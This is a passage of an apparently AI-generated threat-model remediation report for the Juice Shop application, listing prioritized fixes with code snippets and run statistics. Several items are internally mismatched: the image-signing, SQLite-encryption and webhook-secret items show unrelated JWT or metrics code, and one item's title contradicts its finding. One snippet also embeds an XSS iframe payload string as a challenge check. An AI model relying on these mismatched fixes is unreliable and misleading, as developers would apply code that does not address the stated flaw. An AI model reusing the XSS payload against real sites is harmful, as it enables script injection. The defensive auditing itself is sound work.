- 🟠 [F-047](#f-047) — Heroku CLI installed (`ci.yml:326`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `.github/workflows/ci.yml:326`

**How:** Replace the `curl | sh` install pattern with the official `akhileshns/heroku-deploy` action already present in the same job - it bundles the CLI internally, removing the need for a separate install step. Alternatively, pin the Heroku CLI to a specific version and verify its `SHA256` checksum: `curl -fsSL https://cli-assets.heroku.com/heroku-linux-x64.tar.gz -o heroku.tar.gz && echo '<sha256>  heroku.tar.gz' | sha256sum -c`. If the separate install step is required, use a pre-built GitHub Action for Heroku CLI setup pinned to a commit SHA.

1. Replace the `curl | sh` install pattern with the official `akhileshns/heroku-deploy` action already present in the same job - it bundles the CLI internally, removing the need for a separate install step.
2. Alternatively, pin the Heroku CLI to a specific version and verify its `SHA256` checksum: `curl -fsSL https://cli-assets.heroku.com/heroku-linux-x64.tar.gz -o heroku.tar.gz && echo '<sha256>  heroku.tar.gz' | sha256sum -c`.
3. If the separate install step is required, use a pre-built GitHub Action for Heroku CLI setup pinned to a commit SHA.

```javascript
# Remove the Install Heroku CLI step entirely since akhileshns/heroku-deploy
# bundles the CLI. If needed standalone:
- name: Install Heroku CLI
  run: |
    VERSION=8.11.5
    SHA256=<known-good-sha256>
    curl -fsSL https://cli-assets.heroku.com/channels/stable/heroku-linux-x64.tar.gz -o heroku.tar.gz
    echo "$SHA256  heroku.tar.gz" | sha256sum -c
    tar xzf heroku.tar.gz
```

**Reference:** CWE-494

---

<a id="m-052"></a>
#### M-052 — Apply least-privilege permissions

**Addresses:**

- 🟠 [F-048](#f-048) — Missing workflow-level permissions block grants GITHUB_TOKEN (`ci.yml:1`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `.github/workflows/ci.yml:1`

**How:** Add `permissions: contents: read` as a top-level key in `ci.yml`, `release.yml`, and `zap_scan.yml` immediately after the `on:` block. For the `docker` job that pushes images, add a job-level `permissions: packages: write` override. For the `release.yml` `package` job that creates GitHub releases, add `permissions: contents: write` at job level. For the coverage-report job using GITHUB_TOKEN with coverallsapp, add `permissions: checks: write` at job level. Use `step-security/harden-runner` action at the start of each job to enforce network egress controls and log token usage.

1. Add `permissions: contents: read` as a top-level key in `ci.yml`, `release.yml`, and `zap_scan.yml` immediately after the `on:` block.
2. For the `docker` job that pushes images, add a job-level `permissions: packages: write` override.
3. For the `release.yml` `package` job that creates GitHub releases, add `permissions: contents: write` at job level.
4. For the coverage-report job using GITHUB_TOKEN with coverallsapp, add `permissions: checks: write` at job level.
5. Use `step-security/harden-runner` action at the start of each job to enforce network egress controls and log token usage.

```javascript
# Workflow level (most restrictive default):
permissions:
  contents: read

jobs:
  docker:
    permissions:
      contents: read
      packages: write  # only where needed
    steps:
      - ...
```

**Reference:** CWE-732

---

<a id="m-053"></a>
#### M-053 — Replace deterministic deluxeToken with a cryptographically random secret stored as a non-derivable token

**Addresses:**

- 🟠 [F-049](#f-049) — Deterministic deluxeToken derivation enables unauthorized (`models/user.ts:101`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `models/user.ts:101`

**How:** Replace `security.deluxeToken(email)` with `crypto.randomBytes(32).toString('hex')` generated at account creation and stored in the DB as the user's deluxe entitlement token. Remove the public derivation algorithm from `lib/insecurity.ts`; the token must be unguessable and non-reproducible from public data. At the route layer, verify the `deluxeToken` by comparing against the DB record - not by re-deriving it - and invalidate the token when the subscription lapses. Add a `deluxeExpiresAt` timestamp field to `UserModel` so token validity is time-bounded independently of the token value.

1. Replace `security.deluxeToken(email)` with `crypto.randomBytes(32).toString('hex')` generated at account creation and stored in the DB as the user's deluxe entitlement token.
2. Remove the public derivation algorithm from `lib/insecurity.ts`; the token must be unguessable and non-reproducible from public data.
3. At the route layer, verify the `deluxeToken` by comparing against the DB record - not by re-deriving it - and invalidate the token when the subscription lapses.
4. Add a `deluxeExpiresAt` timestamp field to `UserModel` so token validity is time-bounded independently of the token value.

```javascript
// data/datacreator.ts — secure token generation
import { randomBytes } from 'crypto'
const deluxeToken = role === security.roles.deluxe ? randomBytes(32).toString('hex') : ''
```

**Reference:** CWE-330

---

<a id="m-054"></a>
#### M-054 — Enforce server-side authorization on every endpoint

**Addresses:**

- 🔴 [F-050](#f-050) — Missing Authorization on PUT `/api/Products/:id` (`server.ts:369`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:369`

**How:** Uncomment and extend the guard at `server.ts:369`: `app.put('/api/Products/:id', security.isAuthorized(), security.isAccounting())`. Add a second check that verifies the authenticated user has the `admin` or `accounting` role before any product mutation. Log all product price and description changes to the security audit log.

1. Uncomment and extend the guard at `server.ts:369`: `app.put('/api/Products/:id', security.isAuthorized(), security.isAccounting())`.
2. Add a second check that verifies the authenticated user has the `admin` or `accounting` role before any product mutation.
3. Log all product price and description changes to the security audit log.

```javascript
// server.ts:369
app.put('/api/Products/:id', security.isAuthorized(), security.isAccounting())
```

**Reference:** CWE-862

---

<a id="m-055"></a>
#### M-055 — Exclude role and isActive fields from the User finale auto-model and enforce role assignment server-side

**Addresses:**

- 🔴 [F-051](#f-051) — Mass Assignment Admin Role Injection (`server.ts:483`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:483`

**How:** Add `role` and `isActive` to the `exclude` array for the User finale resource: `{ name: 'User', exclude: ['password', 'totpSecret', 'role', 'isActive'], model: UserModel }`. In the `POST /api/Users` handler, hardcode `req.body.role = 'customer'` before passing to the ORM to prevent bypass via any unexcluded path. Add an integration test asserting that `POST /api/Users` with `role: 'admin'` results in a `customer`-role account.

1. Add `role` and `isActive` to the `exclude` array for the User finale resource: `{ name: 'User', exclude: ['password', 'totpSecret', 'role', 'isActive'], model: UserModel }`.
2. In the `POST /api/Users` handler, hardcode `req.body.role = 'customer'` before passing to the ORM to prevent bypass via any unexcluded path.
3. Add an integration test asserting that `POST /api/Users` with `role: 'admin'` results in a `customer`-role account.

```javascript
// server.ts ~line 483
{ name: 'User', exclude: ['password', 'totpSecret', 'role', 'isActive'], model: UserModel }
```

**Reference:** CWE-915

---

<a id="m-056"></a>
#### M-056 — Replace js-yaml `yaml.load` with yaml.safeLoad or upgrade to js-yaml v4 and use load

**Addresses:**

- 🔴 [F-052](#f-052) — Unsafe YAML Deserialization (`routes/fileUpload.ts:117`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `fileUpload.ts:117`

**How:** Upgrade js-yaml from ^3.14.0 to ^4.1.0 in `package.json` - in v4, `yaml.load()` uses the safe (DEFAULT_SCHEMA) by default and !!js/* types are removed entirely. If upgrading is not immediately possible, replace `yaml.load(data)` with `yaml.safeLoad(data)` at `fileUpload.ts:117` - `safeLoad()` uses SAFE_SCHEMA in v3 and rejects !!js/* types. If YAML upload functionality is deprecated (same comment as XML), remove `handleYamlUpload` from the `/file-upload` middleware chain.

1. Upgrade js-yaml from ^3.14.0 to ^4.1.0 in `package.json` - in v4, `yaml.load()` uses the safe (DEFAULT_SCHEMA) by default and !!js/* types are removed entirely.
2. If upgrading is not immediately possible, replace `yaml.load(data)` with `yaml.safeLoad(data)` at `fileUpload.ts:117` - `safeLoad()` uses SAFE_SCHEMA in v3 and rejects !!js/* types.
3. If YAML upload functionality is deprecated (same comment as XML), remove `handleYamlUpload` from the `/file-upload` middleware chain.

```javascript
// package.json — upgrade
"js-yaml": "^4.1.0"

// routes/fileUpload.ts:117 — use safe API until upgrade
// v3 workaround:
const yamlString = vm.runInContext('JSON.stringify(yaml.safeLoad(data))', sandbox, { timeout: 2000 })
```

**Reference:** CWE-502

---

### P3 — Next Quarter

<a id="m-005"></a>
#### M-005 — Sign and verify release artifacts

**Addresses:**

- 🔴 [F-060](#f-060) — Container images not signed (`ci.yml:1`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `.github/workflows/ci.yml:1`

**How:** Add cosign signing step to release workflow; or use actions/attest-build-provenance - Unsigned container images cannot be verified for provenance - any registry intermediary could substitute them.

```typescript
// Always verify on the public key; never trust the unsigned header.
const decoded = jwt.verify(token, publicKey, { algorithms: ['RS256'] })
```

**Verification:** Tamper one byte in a valid token's payload and confirm `jwt.verify()` throws.

---

<a id="m-006"></a>
#### M-006 — Disable untrusted package install scripts

**Addresses:**

- 🟡 [F-061](#f-061) — Untrusted npm Install/Postinstall Scripts Enabled — Dockerfile:5

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `Dockerfile:5`

**How:** Use `npm ci --ignore-scripts` and audit required postinstalls separately - Without --ignore-scripts, any compromised dependency publisher can execute postinstall code at build time.

---

<a id="m-007"></a>
#### M-007 — Pin the container base image to an immutable digest

**Addresses:**

- 🟡 [F-062](#f-062) — Dependabot not configured for npm ecosystem (.github/dependabot.yml:1)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `.github/dependabot.yml:1`

**How:** Add npm ecosystem entry to .`github/dependabot.yml` - npm ecosystem must be tracked for timely dependency security updates.

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** `npm audit --omit=dev --audit-level=high` exits 0.

---

<a id="m-009"></a>
#### M-009 — Store session tokens in HttpOnly, Secure cookies

**Addresses:**

- 🟠 [F-001](#f-001) — JWT Session Token in localStorage (`login.component.ts:101`)

**Priority:** P3 - Next Quarter · **Effort:** High · **File:** `frontend/src/app/login/login.component.ts:101`

**How:** Introduce a Backend-for-Frontend (BFF) layer: the Express backend sets the session JWT as an `HttpOnly; Secure; SameSite=Strict` cookie on the login response instead of returning it in the JSON body. Remove all `localStorage.setItem('token', ...)` calls in the SPA; the SPA sends cookies implicitly with each request. Update Angular `HttpClient` requests to use `withCredentials: true` so the cookie is sent cross-origin where needed. Rotate session identifiers on privilege escalation events (role change, password change).

1. Introduce a Backend-for-Frontend (BFF) layer: the Express backend sets the session JWT as an `HttpOnly; Secure; SameSite=Strict` cookie on the login response instead of returning it in the JSON body.
2. Remove all `localStorage.setItem('token', ...)` calls in the SPA; the SPA sends cookies implicitly with each request.
3. Update Angular `HttpClient` requests to use `withCredentials: true` so the cookie is sent cross-origin where needed.
4. Rotate session identifiers on privilege escalation events (role change, password change).

```typescript
// Move the JWT out of localStorage into an httpOnly cookie.
res.cookie('session', token, {
  httpOnly: true, secure: true, sameSite: 'lax', maxAge: 3600_000
})
```

**Verification:** Open browser DevTools, run `localStorage.getItem('token')` and confirm `null`.

**Reference:** CWE-922

---

<a id="m-038"></a>
#### M-038 — Replace the weak cryptographic algorithm

**Addresses:**

- 🟠 [F-034](#f-034) — SQLite database file stored unencrypted at rest (`models/index.ts:38`)

**Priority:** P3 - Next Quarter · **Effort:** High · **File:** `models/index.ts:38`

**How:** Replace the `better-sqlite3` / `sequelize-pool` driver with `@journeyapps/sqlcipher` and configure a database encryption key via `dialectOptions: { key: process.env.SQLITE_ENCRYPTION_KEY }` in `models/index.ts`. Alternatively, ensure the application runs on a host where the working directory is on an encrypted volume (LUKS, dm-crypt, or cloud-provider managed disk encryption) with key access restricted to the application service account. Move the SQLite file path outside the web root and application deployment directory so path-traversal vulnerabilities cannot expose it through the HTTP file-serving layer. Restrict filesystem permissions on `data/juiceshop.sqlite` to the application's OS user only (mode 0600).

1. Replace the `better-sqlite3` / `sequelize-pool` driver with `@journeyapps/sqlcipher` and configure a database encryption key via `dialectOptions: { key: process.env.SQLITE_ENCRYPTION_KEY }` in `models/index.ts`.
2. Alternatively, ensure the application runs on a host where the working directory is on an encrypted volume (LUKS, dm-crypt, or cloud-provider managed disk encryption) with key access restricted to the application service account.
3. Move the SQLite file path outside the web root and application deployment directory so path-traversal vulnerabilities cannot expose it through the HTTP file-serving layer.
4. Restrict filesystem permissions on `data/juiceshop.sqlite` to the application's OS user only (mode 0600).

```typescript
// jsonwebtoken@9+: pin algorithm whitelist; reject `alg:none`.
jwt.verify(token, publicKey, { algorithms: ['RS256'] })
```

**Verification:** Submit a token with `alg:none` (no signature) and confirm `jwt.verify()` throws instead of returning the decoded claims.

**Reference:** CWE-327

---

<a id="m-057"></a>
#### M-057 — Require authenticated identity and server-side evidence before marking WebSocket-triggered challenges as solved

**Addresses:**

- 🟠 [F-053](#f-053) — Client-Controlled Challenge Solver (`registerWebsocketEvents.ts:41`)

**Priority:** P3 - Next Quarter · **Effort:** High · **File:** `lib/startup/registerWebsocketEvents.ts:41`

**How:** Add JWT auth middleware so that only authenticated users' WebSocket events are processed (realtime-channel-001 is a prerequisite). Move challenge verification to server-authoritative sources (e.g. HTTP request headers, session log, or a server-side XSS sink) rather than accepting client-reported payloads as proof of exploit. At minimum, associate the solve event with `socket.data.user.id` so the solve is scoped to the authenticated user, not anonymous. Audit all `socket.on` event handlers for any that call `challengeUtils.solveIf` or `challengeUtils.solve` and apply the same auth requirement.

1. Add JWT auth middleware so that only authenticated users' WebSocket events are processed (realtime-channel-001 is a prerequisite).
2. Move challenge verification to server-authoritative sources (e.g. HTTP request headers, session log, or a server-side XSS sink) rather than accepting client-reported payloads as proof of exploit.
3. At minimum, associate the solve event with `socket.data.user.id` so the solve is scoped to the authenticated user, not anonymous.
4. Audit all `socket.on` event handlers for any that call `challengeUtils.solveIf` or `challengeUtils.solve` and apply the same auth requirement.

```javascript
// registerWebsocketEvents.ts - auth-gated event handler
socket.on('verifyLocalXssChallenge', (data: any) => {
  if (!socket.data?.user) return // reject unauthenticated
  challengeUtils.solveIf(challenges.localXssChallenge, () => {
    return utils.contains(data, '<iframe src="javascript:alert(`xss`)">')
  })
})
```

**Reference:** CWE-602

---

<a id="m-058"></a>
#### M-058 — Encode output instead of bypassing the framework sanitizer

**Addresses:**

- 🔴 [F-054](#f-054) — XSS (`last-login-ip.component.ts:39`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `last-login-ip.component.ts:39`

**How:** Replace the `bypassSecurityTrustHtml` call at `last-login-ip.component.ts:39` with a plain string assignment and use Angular text interpolation `{{ lastLoginIp }}` in the template. Validate that `lastLoginIp` matches a valid IP address pattern before binding to any rendering context.

1. Replace the `bypassSecurityTrustHtml` call at `last-login-ip.component.ts:39` with a plain string assignment and use Angular text interpolation `{{ lastLoginIp }}` in the template.
2. Validate that `lastLoginIp` matches a valid IP address pattern before binding to any rendering context.

```javascript
// In parseAuthToken():
this.lastLoginIp = payload.data.lastLoginIp  // plain string
// In template: <small>{{ lastLoginIp }}</small>
```

**Reference:** CWE-79

---

<a id="m-059"></a>
#### M-059 — Add security audit logging

**Addresses:**

- 🟡 [F-055](#f-055) — No audit log of B2B order submissions or RCE attempt (`routes/b2bOrder.ts:16`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `routes/b2bOrder.ts:16`

**How:** Emit a structured log entry at the start of every `POST /b2b/v2/orders` request including: the decoded JWT `sub`/`email`, `req.ip`, the first 200 bytes of `orderLinesData` (truncated to avoid log injection), and the outcome (success / timeout / error). Use a structured logging library (e.g. `pino` or `winston` with JSON format) so log entries are machine-parseable by a SIEM. Route security-audit logs to an append-only sink (separate file or log-shipping agent) distinct from the application's debug logs.

1. Emit a structured log entry at the start of every `POST /b2b/v2/orders` request including: the decoded JWT `sub`/`email`, `req.ip`, the first 200 bytes of `orderLinesData` (truncated to avoid log injection), and the outcome (success / timeout / error).
2. Use a structured logging library (e.g. `pino` or `winston` with JSON format) so log entries are machine-parseable by a SIEM.
3. Route security-audit logs to an append-only sink (separate file or log-shipping agent) distinct from the application's debug logs.

```javascript
// routes/b2bOrder.ts — add audit log
import logger from '../lib/logger' // pino/winston instance
// inside handler:
const caller = security.authenticatedUsers.from(req)
logger.info({ event: 'b2b_order', user: caller?.data?.email, ip: req.ip, payloadPreview: orderLinesData.slice(0, 200) })
```

**Reference:** CWE-778

---

<a id="m-060"></a>
#### M-060 — Sign and verify release artifacts

**Addresses:**

- 🔴 [F-056](#f-056) — Container images published without signing or build provenance (`ci.yml:305`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `.github/workflows/ci.yml:305`

**How:** Add `sigstore/cosign-installer` step after the build-push step in both `ci.yml` and `release.yml` docker jobs. Sign the pushed image digest with `cosign sign --yes <image>@<digest>` using keyless signing (OIDC-based, no long-lived key required). Alternatively, add `actions/attest-build-provenance` step to generate a SLSA Level 2 provenance attestation. Store the DOCKERHUB_TOKEN with minimum required scopes (push to specific repos only) and rotate it after any suspected workflow compromise.

1. Add `sigstore/cosign-installer` step after the build-push step in both `ci.yml` and `release.yml` docker jobs.
2. Sign the pushed image digest with `cosign sign --yes <image>@<digest>` using keyless signing (OIDC-based, no long-lived key required).
3. Alternatively, add `actions/attest-build-provenance` step to generate a SLSA Level 2 provenance attestation.
4. Store the DOCKERHUB_TOKEN with minimum required scopes (push to specific repos only) and rotate it after any suspected workflow compromise.

```javascript
- name: Install cosign
  uses: sigstore/cosign-installer@3454372f43399081ed03b604cb2d021dabca52bb #v3.8.2

- name: Sign container image
  run: |
    cosign sign --yes \
      bkimminich/juice-shop@${{ steps.build-push.outputs.digest }}
```

**Reference:** CWE-347

---

<a id="m-061"></a>
#### M-061 — Add security audit logging

**Addresses:**

- 🟡 [F-057](#f-057) — Sequelize query logging disabled no data-layer audit trail (`models/index.ts:39`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `models/index.ts:39`

**How:** Add Sequelize `afterCreate`, `afterUpdate`, `afterDestroy` hooks to `UserModel`, `CardModel`, `WalletModel`, and `OrderModel` that write to an append-only `AuditLog` table (columns: actor_id, action, table_name, record_id, changed_fields, timestamp). Re-enable Sequelize logging in non-production environments by setting `logging: process.env.NODE_ENV !== 'production' ? console.log : false` at `models/index.ts:39`. For production, route audit events to a structured log sink (e.g., Winston JSON transport) that is write-only from the application's perspective. Ensure the AuditLog table is append-only at the DB level (grant INSERT only, no UPDATE/DELETE to the application DB user).

1. Add Sequelize `afterCreate`, `afterUpdate`, `afterDestroy` hooks to `UserModel`, `CardModel`, `WalletModel`, and `OrderModel` that write to an append-only `AuditLog` table (columns: actor_id, action, table_name, record_id, changed_fields, timestamp).
2. Re-enable Sequelize logging in non-production environments by setting `logging: process.env.NODE_ENV !== 'production' ? console.log : false` at `models/index.ts:39`.
3. For production, route audit events to a structured log sink (e.g., Winston JSON transport) that is write-only from the application's perspective.
4. Ensure the AuditLog table is append-only at the DB level (grant INSERT only, no UPDATE/DELETE to the application DB user).

```javascript
// models/user.ts — audit hook
User.addHook('afterUpdate', async (user, options) => {
  await AuditLogModel.create({
    actorId: (options as any).context?.userId ?? null,
    action: 'update',
    tableName: 'Users',
    recordId: user.id,
    changedFields: JSON.stringify(user.changed()),
    timestamp: new Date()
  })
})
```

**Reference:** CWE-778

---

<a id="m-062"></a>
#### M-062 — Stop exposing internal information to clients

**Addresses:**

- 🟡 [F-058](#f-058) — Unauthenticated B2B API attack surface disclosure (`server.ts:286`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `server.ts:286`

**How:** Gate the Swagger UI mount behind `security.isAuthorized()` middleware in `server.ts`, or restrict it to internal IP ranges via a network-level control. For production deployments, consider disabling the Swagger UI entirely (`if (process.env.NODE_ENV !== 'production')`) and serving API documentation from a separate internal developer portal. Remove or redact the `orderLinesData` example string from `swagger.yml` to reduce reconnaissance value even if the spec remains accessible.

1. Gate the Swagger UI mount behind `security.isAuthorized()` middleware in `server.ts`, or restrict it to internal IP ranges via a network-level control.
2. For production deployments, consider disabling the Swagger UI entirely (`if (process.env.NODE_ENV !== 'production')`) and serving API documentation from a separate internal developer portal.
3. Remove or redact the `orderLinesData` example string from `swagger.yml` to reduce reconnaissance value even if the spec remains accessible.

```javascript
// server.ts — gate Swagger UI
if (process.env.NODE_ENV !== 'production') {
  app.use('/api-docs', swaggerUi.serve, swaggerUi.setup(swaggerDocument))
} else {
  app.use('/api-docs', security.isAuthorized(), swaggerUi.serve, swaggerUi.setup(swaggerDocument))
}
```

**Reference:** CWE-200

---

<a id="m-063"></a>
#### M-063 — Return generic error messages to clients

**Addresses:**

- 🟡 [F-059](#f-059) — Raw error propagation leaks safeEval execution details (`routes/b2bOrder.ts:33`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `b2bOrder.ts:25`

**How:** In the catch block at `b2bOrder.ts:25`-33, replace `next(err)` with a generic `res.status(400).json({ error: 'Invalid orderLinesData' })` for all non-timeout errors. Log the full error object server-side (to the structured audit log) without returning it to the caller. Ensure Express's global error handler is configured to return a sanitized response in production (`process.env.NODE_ENV === 'production'` guard).

1. In the catch block at `b2bOrder.ts:25`-33, replace `next(err)` with a generic `res.status(400).json({ error: 'Invalid orderLinesData' })` for all non-timeout errors.
2. Log the full error object server-side (to the structured audit log) without returning it to the caller.
3. Ensure Express's global error handler is configured to return a sanitized response in production (`process.env.NODE_ENV === 'production'` guard).

```javascript
// routes/b2bOrder.ts — sanitize error response
} catch (err) {
  if (utils.getErrorMessage(err).match(/Script execution timed out.*/) != null) {
    challengeUtils.solveIf(challenges.rceOccupyChallenge, () => true)
    res.status(503)
    next(new Error('Service temporarily unavailable'))
  } else {
    challengeUtils.solveIf(challenges.rceChallenge, () => utils.getErrorMessage(err) === 'Infinite loop detected - reached max iterations')
    logger.warn({ event: 'b2b_eval_error', error: utils.getErrorMessage(err) })
    res.status(400).json({ error: 'Invalid orderLinesData format' })
  }
}
```

**Reference:** CWE-209

---

<a id="m-064"></a>
#### M-064 — Add express-rate-limit middleware to POST /file-upload with a low per-IP request ceiling

**Addresses:**

- 🟡 [F-063](#f-063) — No Rate Limiting on Unauthenticated `/file-upload` Endpoint (`server.ts:309`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `server.ts:31`

**How:** Import `rateLimit` from express-rate-limit (already imported in `server.ts:31`). Apply a rate limiter before `uploadToMemory` in the `/file-upload` middleware chain: `rateLimit({ windowMs: 60 * 1000, max: 10, standardHeaders: true, legacyHeaders: false })`. Tune the max value based on expected legitimate use - complaint uploads are infrequent, so a low ceiling (e.g., 5 per minute per IP) is appropriate.

1. Import `rateLimit` from express-rate-limit (already imported in `server.ts:31`).
2. Apply a rate limiter before `uploadToMemory` in the `/file-upload` middleware chain: `rateLimit({ windowMs: 60 * 1000, max: 10, standardHeaders: true, legacyHeaders: false })`.
3. Tune the max value based on expected legitimate use - complaint uploads are infrequent, so a low ceiling (e.g., 5 per minute per IP) is appropriate.

```javascript
// server.ts:309 — add rate limiter
app.post('/file-upload',
  rateLimit({ windowMs: 60_000, max: 10, standardHeaders: true }),
  uploadToMemory.single('file'),
  ensureFileIsPassed,
  // ... existing middleware
)
```

**Reference:** CWE-400

---

<a id="m-065"></a>
#### M-065 — Configure Socket\.IO connection limits and per-event rate throttling to prevent event-loop flooding

**Addresses:**

- 🟡 [F-064](#f-064) — No Rate Limiting or Connection Cap on Socket\.IO (`registerWebsocketEvents.ts:20`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `lib/startup/registerWebsocketEvents.ts:20`

**How:** Set `maxHttpBufferSize` (e.g. 1e4) and `connectTimeout` (e.g. 5000) in the Socket\.IO Server constructor options. Implement a per-socket event rate limiter using a token bucket (e.g. `socket-io-rate-limiter` or a custom counter on `socket.data`) and disconnect sockets that exceed the threshold. Consider limiting total concurrent connections using a connection counter and rejecting new handshakes above the limit via `io.use()`. Reject event payloads exceeding a maximum byte size before processing.

1. Set `maxHttpBufferSize` (e.g. 1e4) and `connectTimeout` (e.g. 5000) in the Socket\.IO Server constructor options.
2. Implement a per-socket event rate limiter using a token bucket (e.g. `socket-io-rate-limiter` or a custom counter on `socket.data`) and disconnect sockets that exceed the threshold.
3. Consider limiting total concurrent connections using a connection counter and rejecting new handshakes above the limit via `io.use()`.
4. Reject event payloads exceeding a maximum byte size before processing.

```javascript
// lib/startup/registerWebsocketEvents.ts
const io = new Server(server, {
  cors: { origin: 'http://localhost:4200' },
  maxHttpBufferSize: 1e4,
  connectTimeout: 5000
})
// Per-socket event throttle
io.use((socket, next) => {
  let count = 0
  const interval = setInterval(() => { count = 0 }, 1000)
  socket.onAny(() => { if (++count > 20) socket.disconnect(true) })
  socket.on('disconnect', () => clearInterval(interval))
  next()
})
```

**Reference:** CWE-400

---

### P4 — Backlog

<a id="m-008"></a>
#### M-008 — Add a container healthcheck

**Addresses:**

- 🟢 [F-067](#f-067) — Missing HEALTHCHECK instruction — Dockerfile:1

**Priority:** P4 - Backlog · **Effort:** Low · **File:** `Dockerfile:1`

**How:** Add HEALTHCHECK CMD `curl -f http://localhost:<port>/health` - Missing HEALTHCHECK delays orchestrator detection of a hung or poisoned container.

---

<a id="m-066"></a>
#### M-066 — Add security audit logging

**Addresses:**

- 🟢 [F-065](#f-065) — No Audit Logging for Unauthenticated File Uploads (`routes/fileUpload.ts:75`)

**Priority:** P4 - Backlog · **Effort:** Low · **File:** `routes/fileUpload.ts:75`

**How:** Import logger from lib/logger in `routes/fileUpload.ts`. At the start of `handleXmlUpload`, `handleZipFileUpload`, and `handleYamlUpload`, emit a structured log entry: `logger.info({ event: 'file_upload', type: fileType, size: file.size, ip: req.socket.remoteAddress, filename: file.originalname })`. On parse errors or security events (e.g., `xxeFileDisclosureChallenge` solved), emit `logger.warn` with the event type and file metadata - do not include the parsed file content in logs.

1. Import logger from lib/logger in `routes/fileUpload.ts`.
2. At the start of `handleXmlUpload`, `handleZipFileUpload`, and `handleYamlUpload`, emit a structured log entry: `logger.info({ event: 'file_upload', type: fileType, size: file.size, ip: req.socket.remoteAddress, filename: file.originalname })`.
3. On parse errors or security events (e.g., `xxeFileDisclosureChallenge` solved), emit `logger.warn` with the event type and file metadata - do not include the parsed file content in logs.

```javascript
// routes/fileUpload.ts — add at top of handleXmlUpload
import logger from '../lib/logger'

// inside function body:
logger.info({
  event: 'xml_upload_attempt',
  filename: file.originalname,
  size: file.size,
  ip: req.socket.remoteAddress
})
```

**Reference:** CWE-778

---

<a id="m-067"></a>
#### M-067 — Stop exposing internal information to clients

**Addresses:**

- 🟢 [F-066](#f-066) — SOLUTIONS_WEBHOOK secret exposed to Cypress test runner (`ci.yml:223`)

**Priority:** P4 - Backlog · **Effort:** Low · **File:** `.github/workflows/ci.yml:223`

**How:** Review whether SOLUTIONS_WEBHOOK must be in the same env block as CYPRESS_RECORD_KEY (which uploads to external Cypress Dashboard). If not, move it to a separate step that does not upload logs. Ensure the webhook endpoint requires an authentication token so that exposure of the URL alone is insufficient for abuse. Add an expiring webhook token rotation process so that any leaked URL has a bounded lifetime.

1. Review whether SOLUTIONS_WEBHOOK must be in the same env block as CYPRESS_RECORD_KEY (which uploads to external Cypress Dashboard). If not, move it to a separate step that does not upload logs.
2. Ensure the webhook endpoint requires an authentication token so that exposure of the URL alone is insufficient for abuse.
3. Add an expiring webhook token rotation process so that any leaked URL has a bounded lifetime.

```typescript
// Remove directory-listing middleware; require auth on management endpoints.
// app.use('/ftp', serveIndex(...))   // delete
app.use('/metrics', requireRole('admin'), promBundle())
```

**Verification:** Unauthenticated `GET /metrics` returns 401; `GET /ftp/` returns 404.

**Reference:** CWE-200

---

<a id="m-068"></a>
#### M-068 — Add concurrency group with cancel-in-progress to cancel superseded workflow runs on new push

**Addresses:**

- 🟢 [F-068](#f-068) — No concurrency group on push-triggered matrix jobs enables CI (`ci.yml:1`)

**Priority:** P4 - Backlog · **Effort:** Low · **File:** `.github/workflows/ci.yml:1`

**How:** Add a top-level `concurrency:` block to `ci.yml`: `group: ${{ github.workflow }}-${{ github.ref }}` with `cancel-in-progress: true`. Exempt the `on: pull_request:` trigger from cancellation by using `cancel-in-progress: ${{ github.event_name != 'pull_request' }}` to avoid cancelling PR checks mid-run. Apply the same pattern to `release.yml` and `zap_scan.yml`.

1. Add a top-level `concurrency:` block to `ci.yml`: `group: ${{ github.workflow }}-${{ github.ref }}` with `cancel-in-progress: true`.
2. Exempt the `on: pull_request:` trigger from cancellation by using `cancel-in-progress: ${{ github.event_name != 'pull_request' }}` to avoid cancelling PR checks mid-run.
3. Apply the same pattern to `release.yml` and `zap_scan.yml`.

```javascript
# At workflow top level in ci.yml:
concurrency:
  group: ${{ github.workflow }}-${{ github.ref }}
  cancel-in-progress: ${{ github.event_name != 'pull_request' }}
```

**Reference:** CWE-400

---

## 11. Out of Scope

The following items are **explicitly excluded** from this threat model. Findings against these areas should be tracked separately.

- Third-party hosted dependencies and SaaS endpoints
- Browser runtime vulnerabilities and end-user device security
- Operating system kernel and container runtime
- Underlying network infrastructure (DNS, BGP, ISP)
- Physical security of hosting facilities

---

## Appendix: Run Statistics

| Field | Value |
|----------------------|----------------------|
| Invocation | `(not recorded)` |
| Generated | 2026-06-16 18:42 UTC |
| Mode | full |
| Assessment depth | standard |
| Plugin version | 0.4.0-beta (analysis v2) |
| Orchestrator model | sonnet |
| Repository | `/home/mrohr/juice-shop` |
| Output directory | `/home/mrohr/juice-shop/docs/security` |
| Total analysis duration | 93m 30s |

### Per-Stage Breakdown

| Stage | Description | Agent | Model | Duration | Tool calls | Tokens |
|--------|------------------------|----------------------|-----------------|--------|----------|---------|
| 1 | Threat Analysis & Triage | appsec-threat-analyst | claude-sonnet-4-6 | 76m 25s | 437 | 797,658 |
| 1 | Abuse Case Verification | appsec-abuse-case-verifier | sonnet | 10m 47s | 119 | 187,474 |
| 2 | Report Rendering | appsec-threat-renderer | claude-sonnet-4-6 | 6m 17s | 30 | 163,164 |
| **Total** | - | - | - | **93m 30s** | **586** | **1,148,296** |

### Per-Phase Duration Breakdown

| Phase | Description | Agent (Model) | Duration |
|---------|------------------------------------|----------------------|--------|
| Phase 1 | Context Resolution complete (parallel with<br/>Phase 2) | threat-analyst (sonnet-4-6) | 3m 52s |
| Phase 2 | Reconnaissance - recon-summary ready | recon-scanner (sonnet-4-6) | 3m 52s |
